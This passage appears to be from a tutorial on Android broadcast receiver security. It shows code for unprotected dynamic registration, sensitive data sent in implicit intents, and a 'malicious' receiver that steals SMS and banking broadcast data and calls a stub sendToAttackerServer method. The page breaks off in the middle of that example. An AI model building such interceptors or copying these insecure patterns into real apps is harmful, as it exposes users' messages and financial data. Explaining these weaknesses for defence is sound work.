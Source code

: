 ```java
        
        // VULNERABLE: No protection for dynamic registration
        IntentFilter filter = new IntentFilter("com.example.DYNAMIC_ACTION");
        registerReceiver(dynamicReceiver, filter);
    }
    
    private void executeSensitiveCommand(String command) {
        // Vulnerable to command injection
    }
}
```

### 3. Sensitive Data in Implicit Intents

#### Vulnerability

- **Broadcast interception**: Any app can register matching intent filters
- **Data exposure**: Sensitive information transmitted in clear text
- **Wide delivery**: Implicit broadcasts delivered to all matching receivers

#### Vulnerable Code Example

```java
public class VulnerableDataSender extends Activity {
    public void sendSensitiveData() {
        Intent intent = new Intent();
        intent.setAction("com.example.SHARE_DATA");
        
        // VULNERABLE: Sensitive data in implicit intent
        intent.putExtra("session_token", "abc123xyz789");
        intent.putExtra("user_id", "12345");
        intent.putExtra("credit_card", "4111-1111-1111-1111");
        
        // This broadcast can be intercepted by any malicious app
        sendBroadcast(intent);
    }
}
```

### 4. Message Interception Attacks

#### Vulnerability

- **Broadcast hijacking**: Malicious apps register for same intent actions
- **Data theft**: Sensitive information extracted from intercepted broadcasts
- **System mimicry**: Attackers can mimic legitimate system events

#### Malicious Code Example

```java
public class MaliciousInterceptor extends BroadcastReceiver {
    @Override
    public void onReceive(Context context, Intent intent) {
        // Malicious app intercepts SMS or other sensitive broadcasts
        if ("android.provider.Telephony.SMS_RECEIVED".equals(intent.getAction())) {
            // Extract and steal SMS data
            Bundle bundle = intent.getExtras();
            // Send stolen data to attacker's server
            sendToAttackerServer(bundle);
        }
        
        // Intercept app-specific sensitive broadcasts
        if ("com.banking.app.TRANSACTION_COMPLETE".equals(intent.getAction())) {
            String amount = intent.getStringExtra("amount");
            String account = intent.getStringExtra("account");
```